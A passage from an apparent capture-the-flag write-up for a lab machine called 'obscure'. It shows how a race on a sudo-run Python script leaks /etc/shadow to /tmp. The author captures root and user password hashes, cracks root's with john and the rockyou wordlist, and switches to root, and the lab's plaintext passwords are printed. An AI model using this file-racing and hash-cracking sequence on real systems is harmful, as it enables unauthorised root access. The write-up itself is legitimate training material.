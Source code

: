 So this script reads `/etc/shadow` and writes its content to a random file in `tmp`. Scandalous. We know the password for `robert`, so we can set up a quick `bash` script to read through the files in `/tmp/SSH` and print their contents before they're deleted.

```bash
robert@obscure:~$ mkdir /tmp/SSH
robert@obscure:~$ while sleep 0.1; do cat /tmp/SSH/* 2>/dev/null; done
```

Now, we open a new session and run:

```bash
robert@obscure:~/BetterSSH$ /usr/bin/sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
username: robert
password: SecThruObsFTW
Authed!
```

On our `cat /tmp/SSH/*` tab, we see the following output:

```bash
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7

robert
$6$fZZcDG7g$lfO35GcjUmNs3PSjroqNGZjH35gN4KjhHbQxvWO0XU.TCIHgavst7Lj8wLF/xQ21jYW5nD66aJsvQSP/y1zbH/
18163
0
99999
7
```

We can crack that `root` shadow hash with `john`.

```bash
$ echo "$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1" > root-password.hash
$ john -w=~/tools/wordlists/rockyou.txt root-password.hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
mercedes         (?)
1g 0:00:00:00 DONE (2020-04-24 04:06) 2.272g/s 1163p/s 1163c/s 1163C/s 123456..letmein
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

```bash
robert@obscure:~/BetterSSH$ su root
Password: # mercedes
root@obscure:/home/robert/BetterSSH# wc /root/root.txt
 1  1 33 /root/root.txt
root@obscure:/home/robert/BetterSSH#
```

And there we have it.
